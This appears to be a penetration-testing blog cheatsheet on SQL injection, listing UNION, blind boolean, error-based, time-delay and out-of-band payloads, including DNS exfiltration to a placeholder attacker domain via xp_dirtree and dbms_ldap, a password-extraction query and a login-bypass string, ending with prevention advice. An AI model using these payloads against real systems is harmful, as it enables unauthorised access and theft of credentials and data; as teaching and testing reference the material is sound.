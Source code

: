 ```yaml
---
title: "SQLi attack"
subtitle: ""
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"

tags: ["web", "penetest", "sqli"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# SQL injection 

A SQL injection (SQLi) is a type of security exploit in which the attacker adds Structured Query Language (SQL) code to a Web form input box in order to gain access to unauthorized resources or make changes to sensitive data. 


An SQL query is a request for some action to be performed on a database. When executed correctly, a SQL injection can expose intellectual property, the personal information of customers, administrative credentials or private business details.

## SQLi Basics

Here will be some basics informations to get when you have a successfull injection

- SQL injection attack, querying the database type and version on Oracle
	- Depending on the DB you can get the version as follow:
		- Microsoft, MySQL
		{{< highlight sql "lineNos=false" >}}SELECT @@version{{< /highlight >}}
		- Oracle
		{{< highlight sql "lineNos=false" >}}SELECT * FROM v$version{{< /highlight >}}
		- PostgreSQL
		{{< highlight sql "lineNos=false" >}}SELECT version(){{< /highlight >}}
			
- SQL injection attack, listing the database contents 
	- Non-Oracle DB 
	    {{< highlight sql "lineNos=false" >}}select * from information\_schema.tables{{< /highlight >}}

	- Oracle DB
	    {{< highlight sql "lineNos=false" >}}select * from all_tables{{< /highlight >}}

## Union SQL attack 

These attacks are perform to extract data using the same amount of row than the initial result could display. For this attack, working conditions are:
-   The individual queries must return the same number of columns.
-   The data types in each column must be compatible between the individual queries

You can have those following examples : 

- Determining the number of columns returned by the query :
    - Using `Union` :
        {{< highlight sql "lineNos=false" >}}' union select NULL--{{< /highlight >}} 
        > Increasing number of NULL value until values are actually return
    - Using `Order` :
        {{< highlight sql "lineNos=false" >}}' order by 1--{{< /highlight >}}
        > Increasing the int value until an error occured
		
		
- Finding a column containing text
    {{< highlight sql "lineNos=false" >}}union select 'a', NULL, NULL, ...--{{< /highlight >}}
    > Add as many null as you need to match the number of columns
		
- Retrieving data from other tables
    {{< highlight sql "lineNos=false" >}}union select CHAMP1, CHAMP2, .... from TABLE_NAME--{{< /highlight >}}
    > Again add as many null value as needed
		
		
- Retrieving multiple values in a single column
    {{< highlight sql "lineNos=false" >}}union select CHAMP1 || 'SEPERATOR' || CHAMP2 .... from TABLE_NAME--{{< /highlight >}}
    > Very usefull when you only have the capacity to extract data from a uniq column
		
		

## Blind SQL attack 

- Conditional responses

	The goal here is to exfiltrate char by char fields using for exemple a query looking like this one : 
	{{< highlight sql "lineNos=false" >}}' and (select substring(password,1,1) from users where username='administrator')='a{{< /highlight >}}

- Conditional errors

	The goal here is to check errors based on a True query and on a false one. 
    
    Here is an example:
    - True statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=2) then 1/0 else 'a' end)='a{{< /highlight >}}

    - False statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=1) then 1/0 else 'a' end)='a{{< /highlight >}}
	
	
- Time delays

    This one is the favorite of everyone to quickly check for blind SQL.  
    
    The goal is to insert a sleep function (once or twice to confirm it) and check if there is any latence in the anwser given by the server. 
    If there is one, and if this latence is proportionate to your sleep value, then you know that you've got SQLi. 
    
    Examples : 
	
    - Using `sleep`:
        {{< highlight sql "lineNos=false" >}}';sleep(10)--{{< /highlight >}}
	- Using `waitfor` : 
        {{< highlight sql "lineNos=false" >}}'; if (1=1) waitfor delay '0:0:5'--{{< /highlight >}}
	
- Time delays and information retrieval

	Using the techique right above, we can exfiltrate data based on the time the query take to give a result. We will stick with conditional tested char by char. 

    Here is an example : 
    {{< highlight sql "lineNos=false" >}}
    '; if (select count(username) from users where username = 'administrator' and substring(password, 1, 1) > 'm') = 1 waitfor delay '0:0:5'--{{< /highlight >}}


- Out-of-band (OAST)

    This type of SQLi is perform against asynchronous system. 
    
    The goal here is to trigger out-of-band network. We usually use DNS protocol because that's simplier and available on any system. 
    
    To exfiltrate data we will use conditionals techniques again and more precisely a time delays equivalent. 
    Basicly we will redirect to our controlled domain on True or False condition. 
    
    For example we can perform those :
    - For Microsoft SQL Server	
        - Basic test:
            {{< highlight sql "lineNos=false" >}}'; exec master..xp\_dirtree '//MYDOMAIN/a'--{{< /highlight >}}

		- Data on subdomain:
            {{< highlight sql "lineNos=false" >}}declare @q varchar(1024); set @q = 'master..xp\_dirtree '\\\\' + substring(convert(varchar(max), convert(varbinary(max), user\_name()), 1),1,60) + '.MYDOMAIN\\foo'; exec(@q){{< /highlight >}}

    - MYSQL
        Check for the LOAD\_FILE, sys\_eval, http\_get, .. functions
	   
	- ORACLE
        {{< highlight sql "lineNos=false" >}}select dbms_ldap.init((select version from v$instance)||'.'||(select user from 		dual)||'.'||(select name from 	v$database)||'.'|'MYDOMAIN',80) from 	dual;{{< /highlight >}}


- SQL injection vulnerability allowing login bypass
	* Very simple : `username'--`

## How to prevent them 

If a SQL injection attack is successfully carried out, the damage could be expensive in terms of resources and customer trust. That is why detecting this type of attack in a timely manner is important. Web application firewalls (WAF) are the most common tool used to filter out SQLi attacks. WAFs are based on a library of updated attack signatures and can be configured to flag malicious SQL queries.

In order to prevent a SQL injection attack from occurring in the first place, developers can follow these practices:

-   Avoid SQL statements that allow user input, choose prepared statements and parameterized queries instead.
-   Perform input validation, or sanitization, for user-provided arguments.
-   Do not leave sensitive data in plaintext format, or use encryption.
-   Limit database permissions, privileges and capabilities to the bare minimum.
-   Keep databases updated on security patches.
-   Routinely test the security measures of applications that rely on databases.
-   Remove the display of database error messages to the users.